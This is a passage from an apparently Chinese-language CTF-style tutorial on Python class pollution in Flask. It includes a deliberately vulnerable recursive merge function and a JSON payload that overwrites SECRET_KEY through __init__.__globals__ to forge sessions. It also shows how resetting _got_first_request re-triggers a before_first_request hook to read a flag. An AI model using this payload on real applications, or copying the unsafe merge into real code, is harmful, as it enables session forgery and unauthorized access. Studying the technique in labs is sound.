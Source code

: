 ```bash
    return "[+]Config:%s"%(app.config['SECRET_KEY'])

app.run(host="0.0.0.0")
```

这里我们并无法确定 secretkey 是什么，所以如果能够污染我们就可以实现任意的 session 伪造

```bash
{
    "__init__" : {
        "__globals__" : {
            "app" : {
                "config" : {
                    "SECRET_KEY" :"Polluted~"
                }
            }
        }
    }
}
```

### \_got\_first\_request：

用于判定是否某次请求为自`Flask`启动后第一次请求，是`Flask.got_first_request`函数的返回值，此外还会影响装饰器`app.before_first_request`的调用，而`_got_first_request`值为假时才会调用：

所以如果我们想调用第一次访问前的请求，还想要在后续请求中进行使用的话，我们就需要将\_got\_first\_request 从 true 改成 false 然后就能够在后续访问的过程中，仍然能够调用装饰器 app.before\_first\_request 下面的可用信息。

```bash
from flask import Flask,request
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

flag = "Is flag here?"

@app.before_first_request
def init():
    global flag
    if hasattr(app, "special") and app.special == "U_Polluted_It":
        flag = open("flag", "rt").read()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
```